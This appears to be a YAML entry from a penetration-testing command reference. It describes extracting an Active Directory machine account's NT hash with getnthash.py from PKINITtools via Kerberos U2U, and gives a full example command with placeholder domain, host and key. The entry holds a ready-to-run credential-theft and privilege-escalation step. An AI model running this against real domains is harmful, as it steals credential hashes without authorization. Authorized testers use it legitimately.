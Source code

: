 ```yaml
---
description: |
  PKINIT getnthash.py request a TGS for yourself using Kerberos U2U. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that you got from your TGT request using gettgtpkinit.py from PKINIT. Use the TGT from gettgtpkinit.py in your KRB5CCNAME env variable.

  Command Reference:

    Domain: test.local

    Host that you got the TGT from: DC01

    TGT from gettgtpkinit.py: out.ccache

    AS-REP key: 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773

command: |
  KRB5CCNAME=out.ccache python3 getnthash.py test.local/DC01\$ -key 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773
items:
  - TGT
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
references:
  - https://github.com/dirkjanm/PKINITtools
  - https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/
---
```

